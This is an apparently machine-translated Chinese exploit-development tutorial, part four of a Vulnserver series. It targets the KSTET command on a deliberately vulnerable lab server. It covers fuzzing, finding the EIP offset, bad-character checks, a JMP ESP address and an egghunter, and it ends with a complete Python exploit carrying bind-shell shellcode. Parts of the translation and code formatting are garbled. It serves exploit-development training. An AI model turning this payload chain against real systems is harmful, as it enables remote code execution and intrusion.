# Vulnserver —第 4 部分

> 原文：<https://infosecwriteups.com/expdev-vulnserver-part-4-a5529731f0f1?source=collection_archive---------3----------------------->


# Vulnserver —第 4 部分(KSTET — EIP 覆盖)

这将是第四个`vulnserver`漏洞系列。这次我们将模糊和利用易受攻击的命令`KSTET`。我们将用一个普通的`EIP`覆盖来识别一个崩溃点。然后，我们将利用矮个子 JMP 和 Egghunter 从受限空间逃到更大的土地，以介绍我们的外壳代码，最终获得绑定外壳。我们开始吧！

# 实验室环境

*   **操作系统:** Windows 7 (x86)
*   **调试器:** OllyDbg，WinDbg (mona.py)
*   **模糊器:**模糊器
*   **目标:** Vulnserver — `KSTET`命令(EIP 覆盖)

详细的实验室设置指南可在[这里](https://medium.com/@bigb0ss/expdev-vulnserver-part-1-ba35b9e36478)找到

*   "**Vulnserver—第一部分**"

# 初步侦察

让我们快速检查一下`KSTET`命令是做什么的。



KSTET 命令

# 起毛

因为我们已经有了之前在第 1 部分中创建的模糊化脚本，我们可以为`KSTET`命令的模糊化器做一些小的改动。



来源:[fuzz _ kstet . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/fuzz_kstet.py)

像往常一样，让我们用 OllyDbg 连接`vulnserver`。然后，运行我们的 fuzzer。

```
**### Running the Fuzzer**
C:\Users\bigb0ss\Desktop\scripts\KSTET>python fuzz_kstet.py
```

运行我们的 fuzzing 脚本几秒钟后，`vulnserver`崩溃了。从 OllyDbg 的崩溃中，我们可以清楚地看到`KSTET`命令和一定数量的字符导致了崩溃。



初始碰撞

## 模糊分析

从 OllyDbg 上的崩溃来看，大约有 94 个字符导致了 KSTET 命令的崩溃。这次我们将跳过 Boofuzz DB 文件分析。

# 剥削

## 初始崩溃概念验证

让我们创建一个 python 脚本来重现崩溃。



来源:[crash _ kstet . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/crash_kstet.py)

启动`vulnserver`并将其连接到 OllyDbg。然后，运行`crash_kstet.py`脚本。我们成功地用 PoC 脚本重现了崩溃。



再现车祸

## 寻找偏移

我们的下一步是找到一个偏移量来控制`EIP`崩溃时的时间。我们首先需要创建 94 个独特的角色。我们将使用 WinDbg 和 mona.py 的`pattern_create`模块来完成这项工作。

运行 WinDbg 后，键入以下命令来加载 python 模块并创建模式。

```
**### Loading Python Extension of WinDbg**
.load pykd.pyd**### Mona.py Pattern_create**
!py mona pattern_create 94
```



WinDgb + mona.py 模式 _ 创建

让我们用创建的模式更新我们的 PoC 脚本，并针对`vulnserver`再次运行脚本。



来源:[pattern _ kstet . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/pattern_kstet.py)



Pattern_kstet.py 结果

`EIP`现在被值`63413363`覆盖。让我们再次使用 mona.py 来查找偏移量。这一次，我们将使用名为`pattern_offset`的模块。

```
**### Mona.py Pattern_offset**
!py mona pattern_offset 63413363
```



偏移= 70°

它发现偏移量为 70。让我们再次更新我们的 PoC 脚本，并通过对`vulnserver`运行它来确认偏移。

## 确认偏移



来源:[offset _ kstet . py by bigb0ss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/offset_kstet.py)



确认偏移

这种偏移确实是正确的。现在，我们都准备好在碰撞时控制`EIP`。

# 检查不良字符

接下来，让我们检查`KSTET`命令是否有不良或受限字符。我们将使用 mona.py 的`bytearray`命令创建一个从`\x01`到`\xFF`的字节列表(`\x00` = null terminator 通常是一个坏字符，因此我们可以在生成带有`-cpb`标志的列表时排除它)。一旦我们生成了`bytearray`的列表，我们需要将它们分成几个卡盘，因为我们在偏移量内只有大约 70 字节的空间来测试它们的每次崩溃。

```
**### Mona.py Bytearray**
!py mona.py bytearray -cpb \x00**bad_chars_1** = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"**bad_chars_2** = "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"**bad_chars_3** = "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf**bad_chars_**4 = "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```



来源:[bad char _ kstet . py by bigb0ss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/badchar_kstet.py)



检查不良字符(例如“bad_chars_1”)

对每个 bad_chars_1 ~ 4 做这个步骤。一旦完成，没有坏的字符会被发现。

## 寻找 JMP

作为一个常见的`EIP`重写 BOF 漏洞，我们现在需要在应用程序中找到一个`JMP ESP`指令。

这次让我们将 vulnserver 附加到 WinDbg，这样我们就可以使用 mona.py 在应用程序的 dll 中找到`JMP ESP`。我们将再次使用`-cpb`标志来排除任何包含`\x00`的地址。(默认情况下，它还会在非 ASLR 或非 Rebase 模块中进行搜索。)

```
**### Loading Python Extension of WinDbg**
.load pykd.pyd**### Mona.py Finding JMP ESP**
!py mona jmp -r esp -cpb '\x00'
```



寻找 JMP ESP

让我们使用其中一个地址`0x62501205`，并更新我们的 PoC 脚本。并再次将 vulnserver 附加到 OllyDbg，在`0x62501205` ( `JMP ESP`)地址设置一个断点。



JMP ESP 处的断点

当我们运行 PoC 脚本时，我们确实找到了`JMP ESP`地址和断点。



来源:[jmp-esp _ kstet . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/jmp-esp_kstet.py)


JMP ESP ( `0x62501205`)

当我们按下`F7`来步进指令时，我们成功地跳到了`ESP`，但是我们遇到了一个问题。我们只有 14 字节的可用空间。

这是我们的攻击计划:

**【第一阶段外壳代码】**利用 14 字节的空间引入第一阶段外壳代码，将 JMP 缩短到上面带有“A”的更大空间

**【第二阶段外壳代码】**接下来，在“A”空间内引入 Egghunter，以便再次跳转到更大的空间。

**【第三阶段外壳代码】**最后，在更大的篇幅内介绍绑定/反向外壳代码。

## 第一阶段外壳代码(短 JMP)

目前`EAX`寄存器保存我们的 70 字节空间的有效载荷的开始。我们将引入一个基本操作码，将大约`0x6`添加到`EAX`并跳转到`EAX`。让我们在`JMP ESP`指令后添加以下操作码。

```
**### JMP Back Opcode**
ADD EAX, 0x6
JMP EAX
```


JMP 返回操作码

一旦我们跳过指令，我们将成功地跳到我们控制的“A”位置。



JMP 回来了

**这里的一个提示是，从 OllyDbg 中，我们可以简单地二进制复制我们编写的操作码，以便在我们的漏洞利用脚本中使用它们。*

让我们用第一阶段外壳代码更新我们的 PoC 脚本。



来源:[first _ stage _ kstet . py by bigboss](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/first_stage_kstet.py)

## 第二阶段外壳代码(Egghunter)

对于短 JMP，我们现在降落在更大的空间，我们有大约 70 字节的自由空间。让我们为我们的第二阶段外壳代码添加 Egghunter。

基本上 Egghunter 要做的是，只要我们把我们选择的 egg(例如，`W00T`)放到堆栈上，Egghunter 就会迭代内存空间来寻找我们的 egg 并跳转到那里。这是非常性感的技巧，也是从受限空间逃到更大空间的简单方法。让我们使用 mona.py 的`egg`命令创建 Egghunter 外壳代码。

```
**### Mona.py Generating Egghunter**
!py mona egg -t T00W             **# "-t" for your choice of the egg**[+] Egg set to b0ss
[+] Generating traditional 32bit egghunter code
[+] Preparing output file 'egghunter.txt'
    - (Re)setting logfile egghunter.txt
**[+] Egghunter  (33 bytes): 
"\x90\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
"\x74\xef\xb8\x54\x30\x30\x57\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
"\xe7"**
```

然而，这样做的一个问题是在`KSTET`命令中没有合适的地方添加外壳代码。

一次巡视中，我发现它利用了另一个命令。所以我们可以使用之前`vulnserver`系列中的`GMON`命令漏洞利用( [[ExpDev] Vulnserver —第 3 部分](https://medium.com/@bigb0ss/expdev-vulnserver-part-3-24859bd31c0a))。

## 第三阶段外壳代码(最终漏洞)

最后，让我们看看 PoC 脚本。

```
**###** [**Final_kstet.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/final_kstet.py) **(Source by bigb0ss)**import socket
import struct
import os
import sysvuln_command = "KSTET "
crash = 94
offset = 70
eip = struct.pack("<I", 0x62501205)                 **# JMP ESP****# 1st Stage (Short JMP)**
short_jmp = "\x83\xC0\x06\xFF\xE0"**# 2nd Stage (Egghunter)**
egghunter = ""
egghunter += "\x90\x66\x81\xca\xff\x0f\x42\x52"
egghunter += "\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
egghunter += "\x74\xef\xb8\x54\x30\x30\x57\x8b"
egghunter += "\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
egghunter += "\xe7"**# 3rd Stage (Egg + Bind Shell)**
buf = ""
buf += "GMON /"
buf += "T00WT00W"                                  **# Egg**
buf += "\x90" * 10
**# Bind Shell (355 Bytes)**
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"
buf += "\x90" * 20payload = ""
payload += vuln_command
payload += "\x90" * 5
payload += egghunter
payload += "A" * (offset - 5 - len(egghunter))
payload += eip
payload += short_jmp
payload += "C" * (crash - len(payload))print "[+] Sending buffer (Size: %d)" % len(buf)**# GMON Command**
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(buf)
